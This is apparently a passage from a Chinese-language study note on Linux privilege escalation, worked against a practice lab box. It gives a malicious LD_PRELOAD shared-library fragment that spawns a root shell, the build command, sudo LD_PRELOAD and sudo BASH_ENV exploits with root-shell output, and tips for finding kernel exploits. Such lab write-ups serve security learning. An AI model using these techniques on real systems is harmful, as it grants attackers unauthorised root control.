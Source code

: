 ```bash
            unsetenv("LD_PRELOAD"); //只执行一次即可，所以把预加载环境卸掉
            setgid(0);
            setuid(0);
           	system("/bin/bash");

$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
//-fPIC：生成与位置无关的代码,允许共享库在内存中的任何位置加载和执行。-shared：生成一个共享库而不是可执行文件。-nostartfiles：不使用标准系统启动文件，用于自定义启动代码。

$ sudo LD_PRELOAD=./shell.so find	//利用find的sudo权限执行之前，预加载LD，从而提权。虽然在上述sudo -l的结果中，find本身就可以提权。
```
以上内容是结合了LD预载劫持以及env_keep的联合利用方式。对于env这个靶机而言，我们可以通过下述方法来进行。
```bash
hish@environment:~$ echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh 
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo 
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/root.txt 
943dd249259dxxxxxxxxxxxx
root@environment:/home/hish# 

```


### 内核漏洞

`uname -a`命令得出的系统信息，我们可以上网搜一下有没有内核提权漏洞，这些漏洞基本上就是一些老一点的系统才存在。`searchsploit`命令也能搜索。

一般是.c文件的利用方式，我们尽量在目标系统上面进行编译，否则容易出现错误导致系统崩溃等。


## 总结
感觉有点熟悉的一节，看的异常的快，可能是因为我之前打靶机的时候都能遇到过了。
感觉这个地方写的比我好多了，所以贴出来吧

::github{repo="Ignitetechnologies/Linux-Privilege-Escalation"}

::github{repo="frizb/Linux-Privilege-Escalation"}
